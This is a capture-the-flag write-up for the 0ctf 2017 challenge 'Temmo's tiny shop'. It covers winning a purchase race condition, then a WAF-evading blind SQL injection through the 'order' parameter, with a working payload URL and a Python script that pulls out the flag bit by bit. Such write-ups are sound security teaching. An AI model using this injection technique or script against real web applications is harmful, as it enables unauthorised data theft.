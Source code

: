 # 0ctf 2017 - Temmo's tiny shop

_!SpamAndHex - Hege_

Temmo's tiny shop is a 3-paged web application. After registering one can purchase
and sell goods from a predefined list, using a total of 4000 credits. The app also
allows us to search our purchased items by name, and order them by any field.

![shop ss](ss-shop.png)

Notice the `!HINT!` item, costing more than our initial money. Also there is an
info page, where we get funny messages for our purchases.

![info ss](ss-info.png)

## Obtaining !HINT!

Buying and seling takes a considerably long time, so assume that there is a race
condition and try to exploit it. We made it simple: opened multiple sessions for
the same user and buyed and sold items randomly. Clearly there was a race
condition, so started pushing buttons systematically, trying to sell as much goods
in parallel as possible. We quickly got enough credits to buy !HINT!, no
automation was needed at all.

![hint ss](ss-hint.png)

_OK! Now I will give some hint: you can get flag by use `select flag from
ce63e444b0d049e9c899c9a0336b3c59`_

## Obtaining flag through SQLi

The search form uses
`http://202.120.7.197/app.php?action=search&keyword=&order=price`.
Messing around with the parameters revealed the following:

* There is a WAF
* `order` param is vulnerable to SQLi

WAF rejects queries matching `[^0-9a-zA-Z\(\)&]|()|union|user` (and a few more
keywords and possibly table names) with
`{"status":"fail","msg":"WAF seems don't like you."}`.

We managed to leak bits of the flag by manipulating the order of the results:

```
http://202.120.7.197/app.php?action=search&keyword=&order=if(price%26300,1,if((select(ascii(substr(flag,{index},1))%26{mask})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))
```

So we leaked the flag bit by bit, and there you go: `flag{r4ce_c0nditi0n_i5_excited}`.

Code for the lazy:

```
import requests
import json

# the used account needs to have a Schrodinger's cat, an ice cream and nothing else

def extract_string(char_mask_intersects):
  flag = ""
  try:
    for index in range(1, 1000):
      char = 0
      for bit in range(8):
        mask = 1 << bit
        if char_mask_intersects(index, mask):
          char += mask
      if not char:
        break
      char = chr(char)
      print("CHAR: " + char)
      flag += char
  except Exception as err:
    print(err)
  return flag

def bit_mask_in_flag(char_index, mask):
  url = (
    "http://202.120.7.197/app.php?action=search&keyword=&order=" +
    "if(price%26300,1,if((select(ascii(substr(flag,{},1))%26{})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))"
  ).format(char_index, mask)
  print("  requesting {},{}".format(char_index, mask))
  resp = requests.get(url, headers={
    "Cookie": "PHPSESSID=<populate this>"
  })
  resp = json.loads(resp.text)
  return resp["goods"][0]["price"] != "300"

print("FLAG: " + extract_string(bit_mask_in_flag))
```


